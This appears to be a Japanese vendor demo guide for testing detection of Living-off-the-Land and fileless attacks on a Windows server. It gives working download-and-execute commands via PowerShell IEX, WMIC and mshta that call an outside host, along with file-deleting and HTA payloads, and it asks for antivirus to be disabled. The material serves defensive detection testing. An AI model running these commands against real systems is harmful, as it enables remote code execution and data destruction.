

# LOL攻撃とファイルレス攻撃の紹介

## テスト環境の構築

1. **攻撃サーバー**
   - Webサーバーが構築されている必要があります。

2. **MALSCRIPT**
   - 攻撃サーバーのWebルートディレクトリ内に配置する必要があります（`/var/www/html/`）。
   - 侵入したファイルは、Webリクエストの本文を通じてWebシェル（Web Shell）に変換できます。

3. **MALSCRIPT攻撃対象のパス**
   - 被害サーバーで削除するファイルのパスを入力する必要があります。

4. **被害サーバー**
   - PLURAエージェントがインストールされている必要があります。
   - 削除対象のファイル（例：`C:\Program Files\important-file.txt`）が存在している必要があります。
   - ※指定したパスにファイルが存在しない場合、攻撃の成功可否を確認できません。

5. **運用環境**
   - 被害サーバーはWindowsサーバーで構成する必要があります。
   - Windowsリアルタイム保護やV3などのウイルス対策ソフトは停止してください。

6. **コマンドの実行**
   - 被害サーバーで`cmd`または`PowerShell`を管理者権限で実行し、コマンドを実行してください。

---

## LOL攻撃およびファイルレス攻撃とは

### LOL（Living Off the Land）攻撃
- システムにインストールされている合法的なバイナリやDLLなどのツールを利用して攻撃を行う手法。

### ファイルレス（Fileless）攻撃
- 攻撃ファイルを被害サーバーのディスクに保存せず、メモリ上で直接実行する攻撃技術。

以下は、LOLを活用したファイルレス攻撃の方法です。攻撃を実行した後、PLURAで検知内容を確認できます。

---

## 攻撃デモの方法

侵入したファイルは、Webリクエストの本文を通じてWebシェル（Web Shell）に変換できます。この攻撃技術は、Webサーバーを介して追加の悪意ある行為を実行するために活用される可能性があります。

👉 [詳細はこちら](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **PowerShellを使用してファイルレス攻撃を実行**
- **スクリプト:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<被害サーバーで削除するファイルのパス>'

# 例
Remove-Item 'C:\Program Files\important-file.txt'
```

### コマンド
- `cmd`または`PowerShell`のどちらでも実行可能：
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **攻撃成功時:** 被害サーバーのファイルが削除され、PLURAで検知内容を確認可能。

---

## Windows Management Instrumentation (T1047)
- **WMICを使用してリモートコマンドを実行**
- **スクリプト:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<被害サーバーで削除するファイルのパス>'

# 例
Remove-Item 'C:\Program Files\important-file.txt'
```

### コマンド
- `cmd`で実行：
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **攻撃成功時:** 被害サーバーのファイルが削除され、PLURAで検知内容を確認可能。

---

## Mshta (T1218.005)
- **Mshtaを使用して悪意のあるHTAファイルを実行**
- **スクリプト:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### コマンド
- `cmd`または`PowerShell`のどちらでも実行可能：
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **攻撃成功時:** 被害サーバーで「Malicious HTA」のウィンドウと電卓が起動され、PLURAで検知内容を確認可能。

---

# 注意事項
- **PowerShell, WMIC, Mshta**は、Windowsの強力なスクリプト実行ツールであり、ファイルレス攻撃の実行に頻繁に使用されます。
- 攻撃者は、ディスクにファイルを保存せず、メモリ内で直接実行することで検知回避を試みます。
- 上記のプロセスを通じてPLURAの検知機能とセキュリティログを確認してください。

---

## 攻撃概要（Diagram）


---

## PLURA-XDRによる対応方法のご案内

👉 [詳細はこちら](plura_waf_xdr_detection.md)
